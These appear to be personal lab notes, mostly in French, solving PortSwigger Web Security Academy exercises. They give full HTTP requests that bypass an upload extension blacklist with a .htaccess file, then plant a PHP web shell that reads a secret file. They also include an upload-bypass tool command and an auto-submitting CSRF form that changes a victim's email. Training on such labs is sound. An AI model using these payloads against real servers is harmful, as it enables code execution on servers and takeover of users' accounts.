


# Web

## Web shell upload via extension blacklist bypass

1) Il utilise apache2





2) On upload une vrai image.

```http
POST /my-account/avatar HTTP/2
Host: raphzer.net
Cookie: session=mzJjVyYtsM6zpNW0zN1JXXnud4bOrhVL
Content-Length: 30156
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://raphzer.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://raphzer.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename="aie.jpg"
Content-Type: image/jpeg

{...}

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```

3) Upload du .htacess 

`mod_php` : the PHP interpreter is then kind of "embedded" inside the Apache process, there is no external PHP process [Source](https://stackoverflow.com/questions/2712825/what-is-mod-php)

[Apache shell .htacess Cheat Sheet](https://github.com/wireghoul/htshells/)

```http
POST /my-account/avatar HTTP/2
Host: 0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Cookie: session=mzJjVyYtsM6zpNW0zN1JXXnud4bOrhVL
Content-Length: 30156
Origin: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Sec-Fetch-Dest: document
Referer: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename=".htacess"
Content-Type: image/jpeg

AddType application/x-httpd-php .zbi

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```

4) upload du Webshell

```http
POST /my-account/avatar HTTP/2
Host: 0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Cookie: session=mzJjVyYtsM6zpNW0zN1JXXnud4bOrhVL
Content-Length: 30156
Origin: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Sec-Fetch-Dest: document
Referer: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename="webshell.zbi"
Content-Type: image/jpeg

<?php system("cat /home/carlos/secret"); ?>

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```


X) Rien donné

```bash
python3 upload_bypass.py -r ../Portswigger/req.txt -s 'has been uploaded' -E php -D /files/avatars/ --exploit
```


## OAuth account hijacking via redirect_uri


## CSRF
https://0a2b009103a1450c81658e4d0027007a.web-security-academy.net/

<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>

##